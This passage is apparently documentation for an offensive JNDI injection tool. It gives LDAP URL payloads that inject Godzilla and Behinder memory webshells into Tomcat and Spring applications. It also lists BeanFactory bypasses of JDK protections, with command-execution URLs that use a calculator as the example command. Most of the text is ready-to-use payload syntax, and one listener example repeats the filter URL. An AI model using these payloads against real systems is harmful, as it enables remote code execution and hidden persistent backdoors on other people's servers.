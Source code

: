 ## MemShell Injection

Based on the [MemShellParty](https://github.com/ReaJason/MemShellParty) project

Currently only supports injecting memShells through Basic/BeanFactory/Deserialize routes

```bash
# Format
ldap://127.0.0.1:1389/Basic/MemShell/{server}/{tool}/{type}

# Tomcat Godzilla Filter
ldap://127.0.0.1:1389/Basic/MemShell/Tomcat/Godzilla/Filter
# Tomcat Godzilla Listener
ldap://127.0.0.1:1389/Basic/MemShell/Tomcat/Godzilla/Filter

# Spring Web MVC Behinder Interceptor
ldap://127.0.0.1:1389/Basic/MemShell/SpringWebMvc/Behinder/Interceptor
# Spring Web MVC Behinder Controller
ldap://127.0.0.1:1389/Basic/MemShell/SpringWebMvc/Behinder/ControllerHandler

# For more information on memory management types, see the MemShellParty README
```

## BeanFactory Bypass

Bypass restrictions on higher JDK versions using BeanFactory. The Tomcat version must be earlier than 8.5.79, 9.0.63, 10.0.21 or 10.1.0-M14

Supported bypass methods:

- Tomcat ELProcessor
- Groovy ClassLoader/Shell
- XStream
- SnakeYaml
- BeanShell
- MVEL
- MLet
- NativeLibLoader

*Except for MLet and NativeLibLoader, all of the above methods support all Basic module features.*

### Tomcat ELProcessor

Use `javax.el.ELProcessor` (Tomcat 8-9) or `jakarta.el.ELProcessor` (Tomcat 10) to execute EL expressions

```bash
# Tomcat Bypass (8-9)
ldap://127.0.0.1:1389/TomcatBypass/Command/open -a Calculator

# Tomcat Jakarta Bypass (10)
ldap://127.0.0.1:1389/TomcatJakartaBypass/Command/open -a Calculator
```
